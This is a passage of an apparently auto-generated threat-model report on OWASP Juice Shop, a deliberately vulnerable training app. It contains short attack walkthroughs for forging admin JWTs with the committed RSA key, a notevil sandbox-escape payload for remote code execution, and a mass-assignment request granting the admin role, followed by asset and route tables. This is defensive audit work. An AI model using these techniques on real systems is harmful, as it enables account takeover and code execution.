1. The RSA private key used to sign all JWTs is embedded as a string literal at `lib/insecurity.ts:23`.
2. The Juice Shop repository is public on GitHub; anyone who clones it has the full private key.
3. With it, they call `jwt.sign({ data: { id: 1, role: 'admin', email: 'admin@juice-sh.op' } }, privateKey, { algorithm: 'RS256', expiresIn: '6h' })` and produce a token the server's `isAuthorized()` middleware accepts without question.

**Sequence Diagram**


**Key takeaway:** Until ❶ [M-023](#m-023) (Move cryptographic keys to a managed secret store) lands, 🔴 [F-010](#f-010) — Hardcoded Cryptographic Key — `lib/insecurity.ts:23` is exploitable at `lib/insecurity.ts:23` (Critical-severity, [CWE-321](https://cwe.mitre.org/data/definitions/321.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-023](#m-023) (Move cryptographic keys to a managed secret store)

### 3.10 Role Escalation

**Source:** 🔴 [F-011](#f-011) — `lib/insecurity.ts:54`

Severity **Critical** ([CWE-863](https://cwe.mitre.org/data/definitions/863.html)). STRIDE: Elevation of Privilege. See [§8 F-011](#f-011) for the full register row.

**Attack Steps**

1. With the RSA private key available at `lib/insecurity.ts:23`, an attacker constructs a JWT payload `{ data: { id: <any>, role: 'admin', email: 'attacker@x.com' } }` and signs it with `jwt.sign(payload, privateKey, { algorithm: 'RS256' })`.
2. The `isAuthorized()` middleware at line 54 verifies the token against `publicKey` - which corresponds to the committed private key - and accepts it.
3. The role claim is trusted without cross-checking against the database.

**Sequence Diagram**



**Key takeaway:** Until ❶ [M-024](#m-024) (Enforce correct server-side authorization) lands, 🔴 [F-011](#f-011) — Role Escalation — `lib/insecurity.ts:54` is exploitable at `lib/insecurity.ts:54` (Critical-severity, [CWE-863](https://cwe.mitre.org/data/definitions/863.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-024](#m-024) (Enforce correct server-side authorization)

### 3.11 Remote Code Execution

**Source:** 🔴 [F-012](#f-012) — `routes/b2bOrder.ts:23`

Severity **Critical** ([CWE-94](https://cwe.mitre.org/data/definitions/94.html)). STRIDE: Elevation of Privilege. See [§8 F-012](#f-012) for the full register row.

**Attack Steps**

1. The B2B order endpoint at `/b2b/v2/orders` (`routes/b2bOrder.ts:23`) executes attacker-controlled `body.orderLinesData` inside `vm.runInContext('safeEval(orderLinesData)', sandbox)`.
2. The `notevil@1.3.3` library is a known-incomplete sandbox that can be escaped via prototype manipulation (e.g.
3. `({}).constructor.constructor('return process')().exit(1)`).

**Sequence Diagram**



**Key takeaway:** Until ❶ [M-025](#m-025) (Remove server-side evaluation of untrusted input) lands, 🔴 [F-012](#f-012) — Remote Code Execution — `routes/b2bOrder.ts:23` is exploitable at `routes/b2bOrder.ts:23` (Critical-severity, [CWE-94](https://cwe.mitre.org/data/definitions/94.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-025](#m-025) (Remove server-side evaluation of untrusted input)

### 3.12 Mass Assignment Role Injection

**Source:** 🔴 [F-013](#f-013) — `server.ts:419`

Severity **Critical** ([CWE-915](https://cwe.mitre.org/data/definitions/915.html)). STRIDE: Elevation of Privilege. See [§8 F-013](#f-013) for the full register row.

**Attack Steps**

1. The finale-rest auto-generated `POST /api/Users` endpoint persists all body fields to the UserModel without stripping privileged attributes.
2. Sequelize's `create()` called by finale-rest accepts the `role` field from the request body.
3. An attacker sends `POST /api/Users` with `{"email":"attacker@evil.com","password":"pass","role":"admin"}`.

**Sequence Diagram**


**Key takeaway:** Until ❸ [M-001](#m-001) (Manual review: verify Mass Assignment Role Injection via Use) lands, 🔴 [F-013](#f-013) — Mass Assignment Role Injection — `server.ts:419` is exploitable at `server.ts:419` (Critical-severity, [CWE-915](https://cwe.mitre.org/data/definitions/915.html)).

**Defense in Depth**

- Primary mitigation: ❸ [M-001](#m-001) (Manual review: verify Mass Assignment Role Injection via User Registration)

<!-- generated:walkthrough_renderer -->

---

## 4. Assets

Information assets and the classification level that drives the Confidentiality / Integrity / Availability targets used in [§8 Findings Register](#8-findings-register) risk scoring.

<table style="table-layout:fixed;width:100%">
<colgroup><col width="20%" style="width:20%"><col width="6%" style="width:6%"><col width="12%" style="width:12%"><col width="29%" style="width:29%"><col width="33%" style="width:33%"></colgroup>
<thead><tr><th>Asset</th><th>ID</th><th>Classification</th><th>Description</th><th>Linked Threats</th></tr></thead>
<tbody>
<tr><td style="overflow-wrap:anywhere">User Credentials (email + password hash)</td><td style="white-space:nowrap">A-001</td><td>Restricted</td><td>User email addresses and <code>MD5</code>-hashed passwords stored in SQLite Users table. <code>MD5</code> is reversible at scale; plaintext passwords recoverable via rainbow tables.</td><td style="overflow-wrap:anywhere">🔴 <a href="#f-001">F-001</a> — Systemic XSS (<code>administration.component.ts:78</code>)<br/>🔴 <a href="#f-005">F-005</a> — Weak Password Hashing MD5 Without Salt (<code>lib/insecurity.ts:43</code>)<br/>🔴 <a href="#f-007">F-007</a> — SQL Injection (<code>routes/login.ts:34</code>)<br/>🔴 <a href="#f-009">F-009</a> — SQL Injection (<code>routes/search.ts:23</code>)<br/>🟠 <a href="#f-017">F-017</a> — Stored XSS (<code>routes/saveLoginIp.ts:18</code>)<br/>🟠 <a href="#f-018">F-018</a> — Rate Limit Bypass (<code>server.ts:346</code>)<br/>🟠 <a href="#f-033">F-033</a> — Missing Rate Limit on Login Endpoint (<code>server.ts:594</code>)</td></tr>
<tr><td style="overflow-wrap:anywhere">JWT RSA Private Signing Key</td><td style="white-space:nowrap">A-002</td><td>Restricted</td><td>RSA private key hardcoded in <code>lib/insecurity.ts:23</code> used to sign all JWT tokens. Any attacker who reads the source code can forge admin JWT tokens.</td><td style="overflow-wrap:anywhere">🔴 <a href="#f-004">F-004</a> — Insecure JWT Verification (<code>lib/insecurity.ts:54</code>)<br/>🔴 <a href="#f-005">F-005</a> — Weak Password Hashing MD5 Without Salt (<code>lib/insecurity.ts:43</code>)<br/>🔴 <a href="#f-006">F-006</a> — JWT Algorithm Confusion (<code>lib/insecurity.ts:54</code>)<br/>🔴 <a href="#f-010">F-010</a> — Hardcoded Cryptographic Key (<code>lib/insecurity.ts:23</code>)<br/>🔴 <a href="#f-011">F-011</a> — Role Escalation (<code>lib/insecurity.ts:54</code>)<br/>🔴 <a href="#f-029">F-029</a> — Cryptographic Keys Served Unauthenticated (<code>server.ts:278</code>)<br/>🟡 <a href="#f-046">F-046</a> — Unbounded In-Memory Session Store (<code>lib/insecurity.ts:76</code>)</td></tr>
<tr><td style="overflow-wrap:anywhere">Customer Personal &amp; Payment Data</td><td style="white-space:nowrap">A-003</td><td>Restricted</td><td>Customer addresses, credit card data, delivery orders, basket contents stored in SQLite. Includes PII (name, address, country) and payment card metadata.</td><td style="overflow-wrap:anywhere">🔴 <a href="#f-001">F-001</a> — Systemic XSS (<code>administration.component.ts:78</code>)<br/>🔴 <a href="#f-007">F-007</a> — SQL Injection (<code>routes/login.ts:34</code>)<br/>🔴 <a href="#f-008">F-008</a> — Insecure Direct Object Reference (<code>routes/address.ts:11</code>)<br/>🔴 <a href="#f-009">F-009</a> — SQL Injection (<code>routes/search.ts:23</code>)<br/>🔴 <a href="#f-035">F-035</a> — Sensitive Routes Registered Without Authentication Middleware (<code>server.ts:310</code>)<br/>🟠 <a href="#f-051">F-051</a> — Data disclosure (<code>challenges.yml:1381</code>)</td></tr>
<tr><td style="overflow-wrap:anywhere">Server-Side Encryption Keys</td><td style="white-space:nowrap">A-005</td><td>Restricted</td><td>RSA keypair and other encryption keys stored in /encryptionkeys/ directory and exposed via HTTP at <code>/encryptionkeys/:file</code> (intentional). Includes JWT keys.</td><td style="overflow-wrap:anywhere">🔴 <a href="#f-010">F-010</a> — Hardcoded Cryptographic Key (<code>lib/insecurity.ts:23</code>)<br/>🔴 <a href="#f-029">F-029</a> — Cryptographic Keys Served Unauthenticated (<code>server.ts:278</code>)</td></tr>
<tr><td style="overflow-wrap:anywhere">Application Session Tokens (JWT)</td><td style="white-space:nowrap">A-004</td><td>Confidential</td><td>JWT <code>RS256</code> tokens issued by <code>/rest/user/login</code> and stored client-side (localStorage). Tokens grant access to all authenticated endpoints for 6 hours.</td><td style="overflow-wrap:anywhere">🔴 <a href="#f-001">F-001</a> — Systemic XSS (<code>administration.component.ts:78</code>)<br/>🔴 <a href="#f-003">F-003</a> — OAuth Implicit Flow with Derived Password (<code>oauth.component.ts:30</code>)<br/>🔴 <a href="#f-004">F-004</a> — Insecure JWT Verification (<code>lib/insecurity.ts:54</code>)<br/>🟠 <a href="#f-017">F-017</a> — Stored XSS (<code>routes/saveLoginIp.ts:18</code>)<br/>🟠 <a href="#f-023">F-023</a> — JWT Bearer Token in localStorage (<code>login.component.ts:101</code>)<br/>🟡 <a href="#f-043">F-043</a> — No container image signing in CI — :1</td></tr>
<tr><td style="overflow-wrap:anywhere">FTP Files &amp; Confidential Documents</td><td style="white-space:nowrap">A-007</td><td>Confidential</td><td>Files served from /ftp/ directory including <code>acquisitions.md</code>, <code>coupons_2013.md</code>, incident-<code>support.kdbx</code>, and other documents. Publicly accessible without authentication.</td><td style="overflow-wrap:anywhere">🔴 <a href="#f-035">F-035</a> — Sensitive Routes Registered Without Authentication Middleware (<code>server.ts:310</code>)</td></tr>
<tr><td style="overflow-wrap:anywhere">Application Source Code &amp; Configuration</td><td style="white-space:nowrap">A-006</td><td>Internal</td><td>TypeScript source code, configuration files, challenge definitions, and infrastructure-as-code. Repository is public on GitHub - all source code including hardcoded secrets is publicly readable.</td><td style="overflow-wrap:anywhere">-</td></tr>
<tr><td style="overflow-wrap:anywhere">Application Access Logs</td><td style="white-space:nowrap">A-008</td><td>Internal</td><td>HTTP access logs served at <code>/support/logs/</code>. Logs may contain user IP addresses, request parameters, and other sensitive data. Exposed without authentication.</td><td style="overflow-wrap:anywhere">🟠 <a href="#f-030">F-030</a> — Access Log Exposure (<code>server.ts:281</code>)<br/>🔴 <a href="#f-035">F-035</a> — Sensitive Routes Registered Without Authentication Middleware (<code>server.ts:310</code>)</td></tr>
<tr><td style="overflow-wrap:anywhere">Challenge State &amp; Score Data</td><td style="white-space:nowrap">A-009</td><td>Internal</td><td>Challenge completion status, user scores, and hacking challenge progress stored in SQLite. Integrity determines the validity of the CTF/training platform.</td><td style="overflow-wrap:anywhere">🟠 <a href="#f-032">F-032</a> — CTF Flag Broadcast to Unauthenticated WebSocket (<code>lib/challengeUtils.ts:70</code>)</td></tr>
<tr><td style="overflow-wrap:anywhere">Product Catalog &amp; Reviews</td><td style="white-space:nowrap">A-010</td><td>Public</td><td>Product listings, descriptions, and user reviews. Product descriptions allow HTML injection (intentional XSS vector). Review data stored in SQLite.</td><td style="overflow-wrap:anywhere">🔴 <a href="#f-001">F-001</a> — Systemic XSS (<code>administration.component.ts:78</code>)<br/>🔴 <a href="#f-007">F-007</a> — SQL Injection (<code>routes/login.ts:34</code>)<br/>🔴 <a href="#f-009">F-009</a> — SQL Injection (<code>routes/search.ts:23</code>)<br/>🔴 <a href="#f-013">F-013</a> — Mass Assignment Role Injection (<code>server.ts:419</code>)<br/>🔴 <a href="#f-019">F-019</a> — NoSQL Injection (<code>routes/showProductReviews.ts:36</code>)<br/>🟠 <a href="#f-034">F-034</a> — Event Loop Blocking (<code>routes/showProductReviews.ts:17</code>)<br/>🔴 <a href="#f-039">F-039</a> — NoSQL Mass-Update (<code>routes/updateProductReviews.ts:17</code>)</td></tr>
</tbody>
</table>

---

## 5. Attack Surface

Network-reachable entry points classified by authentication requirement. Each row links to the threat(s) referenced in its **Notes** column. The **Risk** column reflects the highest-severity linked finding. Entry points with no linked finding are still listed when they sit on a sensitive surface (authentication, registration, management) or look like a missing-auth/authz suspect - marked **⚑ Review** in Notes.

### 5.1 Unauthenticated Entry Points (57)

<table style="table-layout:fixed;width:100%">
<colgroup><col width="9%" style="width:9%"><col width="30%" style="width:30%"><col width="14%" style="width:14%"><col width="47%" style="width:47%"></colgroup>
<thead><tr><th>Method</th><th>Route</th><th>Risk</th><th>Notes</th></tr></thead>
<tbody>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/api/Feedbacks</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-001">F-001</a> — Systemic XSS (<code>administration.component.ts:78</code>)<br/>handler: <code>server.ts:401</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/user/login</code></td><td>🔴 Critical</td><td>🟡 <a href="#f-041">F-041</a> — Missing Authentication Event Audit Log (<code>routes/login.ts:18</code>)<br/>🔴 <a href="#f-003">F-003</a> — OAuth Implicit Flow with Derived Password (<code>oauth.component.ts:30</code>)<br/>🟠 <a href="#f-033">F-033</a> — Missing Rate Limit on Login Endpoint (<code>server.ts:594</code>)<br/>handler: <code>server.ts:594</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/encryptionkeys/:file</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-029">F-029</a> — Cryptographic Keys Served Unauthenticated (<code>server.ts:278</code>)<br/>🟠 <a href="#f-031">F-031</a> — Unauthenticated Encryption Key File Exposure (<code>server.ts:277</code>)<br/>🔴 <a href="#f-006">F-006</a> — JWT Algorithm Confusion (<code>lib/insecurity.ts:54</code>)<br/>Serves RSA keys and other encryption material without authentication. Intentional — exposes <code>jwt.pub</code> key.</td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/rest/products/search</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-009">F-009</a> — SQL Injection (<code>routes/search.ts:23</code>)<br/>handler: <code>server.ts:600</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/file-upload</code></td><td>🟠 High</td><td>🟠 <a href="#f-020">F-020</a> — XML External Entity Injection (<code>routes/fileUpload.ts:83</code>)<br/>handler: <code>server.ts:309</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/user/reset-password</code></td><td>🟠 High</td><td>🟠 <a href="#f-015">F-015</a> — Insecure Password Recovery (<code>routes/resetPassword.ts:41</code>)<br/>🟠 <a href="#f-018">F-018</a> — Rate Limit Bypass (<code>server.ts:346</code>)<br/>🟠 <a href="#f-033">F-033</a> — Missing Rate Limit on Login Endpoint (<code>server.ts:594</code>)<br/>handler: <code>server.ts:596</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/rest/saveLoginIp</code></td><td>🟠 High</td><td>🟠 <a href="#f-017">F-017</a> — Stored XSS (<code>routes/saveLoginIp.ts:18</code>)<br/>handler: <code>server.ts:617</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/rest/user/change-password</code></td><td>🟠 High</td><td>🟠 <a href="#f-021">F-021</a> — Query Logging Disabled No Audit Trail for Data Mutations (<code>models/index.ts:39</code>)<br/>🟡 <a href="#f-041">F-041</a> — Missing Authentication Event Audit Log (<code>routes/login.ts:18</code>)<br/>handler: <code>server.ts:595</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/rest/user/security-question</code></td><td>🟠 High</td><td>🟠 <a href="#f-015">F-015</a> — Insecure Password Recovery (<code>routes/resetPassword.ts:41</code>)<br/>🟠 <a href="#f-018">F-018</a> — Rate Limit Bypass (<code>server.ts:346</code>)<br/>handler: <code>server.ts:597</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/support/logs/:file</code></td><td>🟠 High</td><td>🟠 <a href="#f-030">F-030</a> — Access Log Exposure (<code>server.ts:281</code>)<br/>Access log file serving without authentication. Logs contain user IPs and request details.</td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/​this/​page/​is/​hidden/​behind/​an/​incredibly/​high/​paywall/​that/​could/​only/​be/​unlocked/​by/​sending/​1btc/​to/​us</code></td><td>🟠 High</td><td>🟠 <a href="#f-027">F-027</a> — Docker base image not digest-pinned — Dockerfile:1<br/>🟠 <a href="#f-038">F-038</a> — Pull_request_target with ORG_ADMIN_TOKEN (<code>pr-compliance.yml:4</code>)<br/>handler: <code>server.ts:649</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/</code></td><td>-</td><td>handler: <code>routes/dataErasure.ts:54</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/metrics</code></td><td>-</td><td>Prometheus metrics endpoint - unauthenticated. Exposes application internals including request counts, latencies, and error rates.<br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/profile</code></td><td>-</td><td>handler: <code>server.ts:664</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/profile/image/file</code></td><td>-</td><td>handler: <code>server.ts:310</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/profile/image/url</code></td><td>-</td><td>handler: <code>server.ts:311</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/​rest/​admin/​application-​configuration</code></td><td>-</td><td>Management surface; handler: <code>server.ts:605</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/​rest/​admin/​application-​version</code></td><td>-</td><td>Management surface; handler: <code>server.ts:604</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/​rest/​continue-​code-​findIt/​apply/​:​continueCode</code></td><td>-</td><td>handler: <code>server.ts:610</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/​rest/​continue-​code-​fixIt/​apply/​:​continueCode</code></td><td>-</td><td>handler: <code>server.ts:611</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/​rest/​continue-​code/​apply/​:​continueCode</code></td><td>-</td><td>handler: <code>server.ts:612</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/memories</code></td><td>-</td><td>handler: <code>server.ts:312</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/​rest/​order-​history/​:​id/​delivery-​status</code></td><td>-</td><td>handler: <code>server.ts:623</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/user/data-export</code></td><td>-</td><td>handler: <code>server.ts:618</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/rest/wallet/balance</code></td><td>-</td><td>handler: <code>server.ts:625</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/​rest/​web3/​walletExploitAddress</code></td><td>-</td><td>handler: <code>server.ts:642</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/web3/walletNFTVerify</code></td><td>-</td><td>handler: <code>server.ts:641</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/snippets/fixes</code></td><td>-</td><td>handler: <code>server.ts:670</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/snippets/verdict</code></td><td>-</td><td>handler: <code>server.ts:668</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
</tbody>
</table>

_28 further entry point(s) in this category carry no linked finding and no elevated review signal, and are not listed individually (57 total). The complete route inventory is available in `.route-inventory.json` and, when exported, `pentest-tasks.yaml`._

### 5.2 Authenticated Entry Points (53)

<table style="table-layout:fixed;width:100%">
<colgroup><col width="9%" style="width:9%"><col width="30%" style="width:30%"><col width="14%" style="width:14%"><col width="47%" style="width:47%"></colgroup>
<thead><tr><th>Method</th><th>Route</th><th>Risk</th><th>Notes</th></tr></thead>
<tbody>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/api/Feedbacks/:id</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-001">F-001</a> — Systemic XSS (<code>administration.component.ts:78</code>)<br/>handler: <code>server.ts:432</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/api/Users</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-013">F-013</a> — Mass Assignment Role Injection (<code>server.ts:419</code>)<br/>handler: <code>server.ts:362</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/api/Users</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-013">F-013</a> — Mass Assignment Role Injection (<code>server.ts:419</code>)<br/>handler: <code>server.ts:407</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/b2b/v2/orders</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-012">F-012</a> — Remote Code Execution (<code>routes/b2bOrder.ts:23</code>)<br/>B2B order endpoint — JWT-authenticated but executes user-supplied JavaScript via <code>vm.runInContext</code> + <code>notevil</code>. Intentional RCE challenge.</td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/api/Products/:id</code></td><td>🟠 High</td><td>🟠 <a href="#f-040">F-040</a> — Product Modification Without Auth Guard (<code>server.ts:369</code>)<br/>handler: <code>server.ts:369</code></td></tr>
<tr><td>DELETE</td><td style="overflow-wrap:anywhere"><code>/api/Products/:id</code></td><td>🟠 High</td><td>🟠 <a href="#f-040">F-040</a> — Product Modification Without Auth Guard (<code>server.ts:369</code>)<br/>handler: <code>server.ts:370</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/api/Products</code></td><td>🟠 High</td><td>🟠 <a href="#f-040">F-040</a> — Product Modification Without Auth Guard (<code>server.ts:369</code>)<br/>handler: <code>server.ts:368</code></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/api/Addresss/:id</code></td><td>-</td><td>handler: <code>server.ts:449</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>DELETE</td><td style="overflow-wrap:anywhere"><code>/api/Addresss/:id</code></td><td>-</td><td>handler: <code>server.ts:450</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/api/BasketItems/:id</code></td><td>-</td><td>handler: <code>server.ts:425</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/api/Cards/:id</code></td><td>-</td><td>handler: <code>server.ts:439</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>DELETE</td><td style="overflow-wrap:anywhere"><code>/api/Cards/:id</code></td><td>-</td><td>handler: <code>server.ts:440</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/api/Cards/:id</code></td><td>-</td><td>handler: <code>server.ts:441</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>DELETE</td><td style="overflow-wrap:anywhere"><code>/api/Quantitys/:id</code></td><td>-</td><td>handler: <code>server.ts:428</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/api/Recycles/:id</code></td><td>-</td><td>handler: <code>server.ts:387</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/api/Recycles/:id</code></td><td>-</td><td>handler: <code>server.ts:388</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>DELETE</td><td style="overflow-wrap:anywhere"><code>/api/Recycles/:id</code></td><td>-</td><td>handler: <code>server.ts:389</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/2fa/disable</code></td><td>-</td><td>handler: <code>server.ts:470</code><br/><em>⚑ Review: auth/token endpoint</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/2fa/setup</code></td><td>-</td><td>handler: <code>server.ts:464</code><br/><em>⚑ Review: auth/token endpoint</em></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/rest/2fa/status</code></td><td>-</td><td>handler: <code>server.ts:462</code><br/><em>⚑ Review: auth/token endpoint</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/2fa/verify</code></td><td>-</td><td>handler: <code>server.ts:457</code><br/><em>⚑ Review: auth/token endpoint</em></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/rest/basket/:id</code></td><td>-</td><td>handler: <code>server.ts:601</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/basket/:id/checkout</code></td><td>-</td><td>handler: <code>server.ts:602</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/​rest/​basket/​:​id/​coupon/​:​coupon</code></td><td>-</td><td>handler: <code>server.ts:603</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/rest/products/:id/reviews</code></td><td>-</td><td>handler: <code>server.ts:632</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/rest/products/:id/reviews</code></td><td>-</td><td>handler: <code>server.ts:633</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
</tbody>
</table>

_27 further entry point(s) in this category carry no linked finding and no elevated review signal, and are not listed individually (53 total). The complete route inventory is available in `.route-inventory.json` and, when exported, `pentest-tasks.yaml`._

---

## 7. Security Architecture

This chapter is organized by security-control category. The architecture section avoids artificial control IDs and finding-ID columns in overview tables. Findings are listed only where the affected control is described.

_[§7](#7-security-architecture) schema v2 (13-section control-category layout). Cataloged controls: 26 total - 0 adequate, 3 partial, 3 weak, 2 unsafe, 18 missing. Linked threats: 51._

**How to read the verdicts.** Every control category (and every sub-control below it) carries exactly one status. The two red verdicts do **not** mean the same thing - this is the distinction that decides what you have to do about a finding:

| Status | Meaning | What it asks of you |
